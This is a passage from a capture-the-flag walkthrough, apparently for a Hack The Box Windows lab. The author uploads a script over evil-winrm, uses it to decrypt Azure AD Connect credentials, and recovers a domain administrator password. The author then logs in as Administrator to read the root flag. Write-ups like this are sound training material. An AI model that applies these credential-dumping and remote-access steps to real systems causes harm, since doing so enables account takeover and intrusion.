 ```shell
   
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

We can open our text editor on Kali, create a file called "AzureADDecryptMSOL.ps1" and put the script above inside:
```shell
sudo gedit AzureADDecryptMSOL.ps1
```
Then we can easily move the script using evil-winrm "upload" command:
```shell
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload AzureADDecryptMSOL.ps1
```
And finally run the script:
```shell
*Evil-WinRM* PS C:\Users\mhope\Desktop> ./AzureADDecryptMSOL.ps1
Retrieving Key_ID, Instance_ID, and Entropy...
Collecting Private and Encrypted Configuration...
Loading mcrypt.dll and Decrypting the Credentials...
Recovered Azure ADSync Credentials Successfully
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
It worked! We got the following credentials:
```shell
administrator:d0m@in4dminyeah!
```
## Using Evil-WinRM to Access as Administrator
Now we can use these credentials to get access as Administrator and get the root.txt flag:
```shell
evil-winrm -i 10.129.228.111 -u Administrator -p 'd0m@in4dminyeah!'
```
## Root Flag
```shell
type C:\Users\Administrator\Desktop\root.txt
```